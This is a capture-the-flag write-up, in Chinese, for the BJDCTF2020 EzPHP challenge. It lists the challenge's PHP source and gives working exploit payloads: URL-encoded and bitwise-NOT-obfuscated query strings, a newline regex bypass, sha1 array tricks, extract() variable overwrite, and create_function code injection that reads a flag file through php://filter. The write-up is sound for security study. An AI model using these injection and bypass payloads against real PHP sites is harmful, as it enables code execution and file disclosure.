









# [BJDCTF2020]EzPHP

## 知识点

`php代码审计`

`$_SERVER`

`preg_match`

`$_REQUEST`

`file_get_contents`

`extract变量覆盖`

`create_function`

## 解题

在源码里`base64`解密后发现`1nD3x.php`，进入`1nD3x.php`发现一串源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
This is a very simple challenge and if you solve it I will give you a flag. Good Luck!
Aqua is the cutest five-year-old child in the world! Isn't it ?
```

一个个的绕过

### $_SERVER['QUERY_STRING']绕过

```php
if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}
```

 `?`之后的字符就是，不管输入什么。它有一个特性：它不会对`url`编码进行`解码`。所以这里直接`url编码绕过`



### preg_match绕过

```php
if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!'); 
```

若`preg_match('/^.*$/',subject)`，`preg_match`只会匹配第一行。参考文章：[戳我](https://www.cnblogs.com/20175211lyz/p/12198258.html)，在`debu`参数后加`%0a`即可。



### $_REQUEST绕过

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
}  
```

它接收`$_GET`和`$_POST`的数据，如果`get`和`post`一样的参数名，它会优先选择`post`形式传入的参数的值。



### file_get_contents

```php
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>"); 
```

#### 1.php://input



#### 2.data://





#### sha数组绕过及extract变量覆盖

```php
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
} 
```



#### create_function

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
}
```

> `create_function()`函数有两个参数`$args`和`$code`，用于创建一个`lambda`样式的函数

比如：

```php
$myfunc = create_function('$a, $b', 'return $a+$b;');
```

相当于：

```php
function myfunc($a, $b){
    return $a+$b;
}
```

但是如果第二个参数没有限制（`$code=return$a+$b;}eval($_POST['cmd']);//`），就会变成：

```php
function myfunc($a, $b){
  return $a+$b;
}eval($_POST['cmd']);//}
```

通过手工闭合`}`使后面的代码`eval()`逃逸出了`myFunc()`得以执行，然后利用注释符`//`注释掉`}`保证了语法正确。

这道题就可以用`flag[code]=create_function`来创建一个函数，用`flag[arg]`去闭合它，然后用`get_defined_vars`函数去返回由所有已定义变量所组成的数组，别忘记最后注释掉后面的内容保证语法准确。

```php
?file=data://text/plain,base64,ZGVidV9kZWJ1X2FxdWE=&debu=aqua_is_cute%0a
&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//

POST
file=1&debu=2
    
    ?file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67[%63%6f%64%65]=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67[%61%72%67]=%7d%76%61%72%5f%64%75%6d%70%28%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73%28%29%29%3b%2f%2f
```

然后需要读取`rea1fl4g.php`



1.过滤了`include`和引号，还可以用`require()`

```php
}require(base64_decode(cmVhMWZsNGcucGhw));var_dump(get_defined_vars());//
```

buuctf上改了改，把flag给unset了，所以得换种办法

2.伪协议

```php
&rce=php://filter/read=convert.base64-encode/resource=rea1fl4g.php
&flag[arg]=;}require(get_defined_vars()[_GET][rce]);//

//POST记得加个rce=2
//读取get_defined_vars()里的['_GET'][rce]，然后include出来。
//如果只是require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php)是不行的。中间的伪协议串需要取反/异或来绕过最后一个正则
```

```php
&%66%6c%61%67[%61%72%67]=%3b%7d%72%65%71%75%69%72%65%28%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73%28%29%5b%5f%47%45%54%5d%5b%72%63%65%5d%29%3b%2f%2f
&rce=%70%68%70%3a%2f%2f%66%69%6c%74%65%72%2f%72%65%61%64%3d%63%6f%6e%76%65%72%74%2e%62%61%73%65%36%34%2d%65%6e%63%6f%64%65%2f%72%65%73%6f%75%72%63%65%3d%72%65%61%31%66%6c%34%67%2e%70%68%70
```



3.取反+伪协议

取反可直接绕过正则

```php
php://filter/read=convert.base64-encode/resource=rea1fl4g.php取反一下

;}require(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F);//
```

异或不行，禁了`^`

4.`define`定义变量，fopen、fgets读取内容

```php
;}define(aaa,fopen(~(%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f),r));while(!feof(aaa))var_dump(fgets(aaa));fclose(aaa);//
```

[参考文章](https://syunaht.com/p/3645611024.html)
